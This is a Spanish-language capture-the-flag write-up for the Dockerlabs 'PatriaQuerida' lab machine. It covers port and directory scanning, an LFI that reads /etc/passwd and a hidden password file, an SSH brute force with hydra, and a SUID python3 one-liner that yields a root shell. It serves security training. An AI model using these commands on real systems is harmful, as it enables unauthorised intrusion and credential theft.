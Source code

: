 
# Writeup Template: Maquina `[ PatriaQuerida ]`

- Tags: #PatriaQuerida
- Dificultad: `[ Facil ]`
- Plataforma: `[ Dockerlabs ]`

---
## Enlace al laboratorio
[Maquina PatriaQuerida](https://mega.nz/file/vFVAVaDC#GCHyxwobUhc_WodvbdeOEdjfjtotxH4WKW3TzOB3P9E)  Laboratorio para aprender sobre seguridad en entornos básicos.

## Configuración del Entorno
```bash
# Comandos para desplegar el laboratorio
7z x patriaquerida.zip
sudo bash auto_deploy.sh patriaquerida.tar
```

---

## Fase de Reconocimiento

### Direccion IP del Target
```bash
172.17.0.2
```
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 172.17.0.2
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py 172.17.0.2
# TTL: [ 64 ] -> [ Linux ]
```

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t 172.17.0.2 -p 1-65000

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted
```

**Servicios identificados:**
```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((UbuntuFocal))
```
---

## Enumeracion de [Servicio  Principal]
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2 # No reporta nada critico
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 80 172.17.0.2 # No reporta nada critico
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash
```

**Hallazgos Relevantes:**
	No reporta nada critico

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,backup,sh,txt,html,js
```

- **Hallazgos**:
```bash
/index.html           (Status: 200) [Size: 10918]
/index.php            (Status: 200) [Size: 110]
```

Revisando esta url:
```bash
http://172.17.0.2/index.php
```

Realizaremos un ataque de **fuzzing** para determinar si esta ejecutando algun parametro en la consulta **php**
```bash
wfuzz -c --hw 12 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/index.php?FUZZ=test"
```

Tenemos un parametro descubierto que veremos si es vulnerable:
```bash
000000099:   200        0 L      0 W        0 Ch        "page" 
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Probaremos a listar el contenido del archivo: **( /etc/passawd )** Si logramos derivarlo a un **LFI** podriamos ver el contenido del archivo
### Ejecucion del Ataque
```bash
# Comandos para explotación
http://172.17.0.2/index.php?page=/etc/passwd
```

Tenemos dos usuarios en el sistema:
```bash
pinguino:x:1000:1000::/home/pinguino:/bin/bash
mario:x:1001:1001::/home/mario:/bin/bash
```

Si recordamos tenemos esta leyenda donde posiblemente tenemos contrasenas de usuarios:
```bash
Bienvenido al servidor CTF Patriaquerida.¡No olvides revisar el archivo oculto en /var/www/html/.hidden_pass!
```

Revisando ese archivo oculto:
```bash
view-source:http://172.17.0.2/index.php?page=.hidden_pass
```

Tenemos una contrasena la cual podemos intentar verificar con un ataque de fuerza bruta con hydra:
```bash
balu # Password filtrada
```

Una ves creado nuestro diccionario con los dos usuarios del sistema, Procedemos a realizar un ataque de fuerza bruta;
```bash
hydra -L users.txt -p balu ssh://172.17.0.2
```

Tenemos las credenciales correctas:
```bash
[22][ssh] host: 172.17.0.2   login: pinguino   password: balu
```
### Intrusion
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh pinguino@172.17.0.2 # ( balu ) 
```

---
## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
ls -la
```

**Hallazgos Clave:**
- Binario con privilegios: `[ nota_mario.txt ]` # Tenemos una nota con la contrasena del usuario **mario**
- Credenciales de usuario: `[ pinguino ]:[ balu ]`

### Explotacion de Privilegios

###### Usuario `[ Pinguino ]`:

```bash
# Comando para escalar al usuario: ( mario )
su mario # ( invitaacachopo )
```

###### Usuario `[ Mario ]`:
```bash
find / -perm -4000 2>/dev/null
```

Tenemos el binario de **python3** que podemos explotar:
```bash
/usr/bin/python3.8
```

Explotando el binario:
```bash
# Comando para escalar al usuario: ( root )
/usr/bin/python3.8 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
bash-5.0# whoami
root
```

---
## Lecciones Aprendidas
1. Aprendimos a explotar una vulnerabilidad **LFI**
2. Aprendimos a obtener contrasenas ocultas atraves de un **LFI**
3. Aprendimos a explotar el binario de **python3** para obtener una **bash** como **root**

## Recomendaciones de Seguridad
- No almacenar contrasenas en archivos ocultos
- Evitar el binario de **python3** con privilegios **SUID**